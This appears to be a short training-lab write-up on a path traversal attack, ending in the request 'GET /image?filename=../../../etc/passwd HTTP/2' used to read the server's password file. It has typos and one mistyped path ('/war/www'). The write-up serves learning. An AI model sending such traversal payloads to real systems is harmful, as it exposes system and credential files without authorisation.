


We need to reed the contents of 

```bash
/etc/passwd
```

Knowing typical structure of a html server we can deduct that page is sitting in

```bash
/var/www
```



Now as we open image in new tab we can see that images are located in /images folder. So we can assume that whole path to image is:

```bash
/war/www/image/2.jpg
```

We need to trawers up 3 times to get to root folder by using

```bash
../
```

To do that we must modify query in request so it looks like this:

```bash
GET /image?filename=../../../etc/passwd HTTP/2
```

Doing this in Repeater we solved the lab!

